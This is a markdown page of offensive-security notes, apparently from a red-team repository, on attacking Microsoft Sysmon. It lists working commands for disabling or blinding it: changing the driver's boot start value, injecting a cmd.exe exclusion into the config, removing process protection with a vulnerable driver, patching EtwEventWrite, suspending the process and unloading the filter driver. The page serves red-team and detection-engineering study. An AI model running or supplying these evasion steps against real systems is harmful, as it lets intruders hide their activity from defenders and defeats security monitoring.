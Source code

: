 ## Sysmon
- [System Monitor (Sysmon)](#system-monitor-sysmon)
- [Sysmon architecture](#sysmon-architecture)
- [Attacking Sysmon](#attacking-sysmon)
	- [Removing kernel callbacks](#removing-kernel-callbacks)
	- [Altitude takeover](#altitude-takeover)
	- [Boot Settings](#boot-settings)
	- [Overwrite config file](#overwrite-config-file)
	- [ETW Patching](#etw-patching)
	- [Suspending and resuming the process](#suspending-and-resuming-the-process)
	- [Unloading sysmon driver](#unloading-sysmon-driver)

## System Monitor (Sysmon)
### Sysmon architecture
- https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon
- Sysmon consists of a client program `Sysmon.exe` and a driver `SysmonDrv.sys`.
	- The driver registers kernel callbacks for Image, Thread, Process, Registry and FileSystem operations.
	- The client collects network (DNS) telemetry from the ETW session and from the driver and writes it to a ETW session
	- Uses a `XML` file for configuration, which telemetry sources is enabled and what to include and exclude

### Attacking Sysmon
### Removing kernel callbacks
- [Driver Attacks – Vulnerable drivers](Driver-Attacks.md#vulnerable-drivers)

### Altitude takeover
- [Manual Altitude takeover](Endpoint Detection Response (EDR).md#manual-altitude-takeover)

### Boot Settings
### Example Boot settings
- What does it do
	- [RegSetValueExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa) - Changes the `start` value of the `SysmonDrv` to `3` (demand start) or revert it back to `0` (boot start)
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine
- Link to code (Not published yet)

```
.\BootSettings.exe -e
```

### Manually change boot settings
- Requirements;
	- Local administrator / system privileges
	- Restart of the Windows machine

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Change the start value
```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv" /v Start /t REG_DWORD /d 3 /f
```

#### Reboot the system
```
shutdown /r /t 0
```

### Overwrite config file

### Example overwriting config file
- What does it do
	- Reads the registry value and overwrites the original configuration file with new content
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process
- See manual steps to copy and add exclusion to config file

```
.\OverwriteConfigFile --replace <NEW CONFIG FILE PATH> --config <SYSMON CONFIG FILE PATH>
```

### Manually overwriting config file
- Requirements;
	- Local administrator / system privileges
	- Restart of the sysmon process

#### Find driver name
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Sysmon\Parameters" /v DriverName
```

#### Find current config file
```
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile
```

#### Copy the config file
```
copy "C:\Program Files\Sysmon\sysmonconfig.xml" "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

#### Add PE exclusion to the config file
- Adds an exclusion for a specific PE file

```
<!-- Image Exclusion -->
<Image condition="is">C:\Windows\System32\cmd.exe</Image>

# Add it within
    <RuleGroup groupRelation="or">
      <ProcessCreate onmatch="exclude">
```

#### Change config file registry value
- Changes the config file path

```
reg add "HKLM\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" /v ConfigFile /t REG_SZ /d "C:\Program Files\Sysmon\sysmonconfig_new.xml" /f
```

#### Update sysmon with the new configuration
- Loads the new configuration file

```
sysmon -c "C:\Program Files\Sysmon\sysmonconfig_new.xml"
```

### ETW Patching
- What does it do
	- Apply ETW patch to the sysmon process, by writing the `0x48 0x33 0xc0 0xc3` patch to `EtwEventWrite` function inside the sysmon process
- `Sysmon.exe` is a protected process and it requires removing before being able to patch ETW.
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Patch EtwEventWrite
- Link to code (Not published yet)

```
.\PatchETWRemoteProcess.exe -t sysmon64.exe
```

### Suspending and resuming the process
- What does it do
	- Suspend the `Sysmon.exe` or `sysmon64.exe` process, which stops generating events from information from the driver
- `Sysmon.exe` is a protected process and it requires removing before being able to suspend the process
- Requirements;
	- Loading a vulnerable driver to remove PPL protections
	- Local administrator / system privileges

#### Remove the protection of sysmon process
- https://github.com/0xJs/BYOVD_read_write_primitive

```
.\ProtectionChanger.exe -p <SYSMON PID> -v 0x00
```

#### Suspend the process
- What does it do
	- Suspends the target process
- Logs will be send after resuming the process again

```
.\SuspendRemoteProcess.exe -t sysmon64.exe -a suspend
```

### Unloading sysmon driver
- What does it do
	- Unloads the driver using the [FilterUnload](https://learn.microsoft.com/en-us/windows/win32/api/fltuser/nf-fltuser-filterunload) win32 API.
- Requirements;
	- Local administrator / system privileges
- Link to code (Not published yet)

```
.\FilterUnload -d
```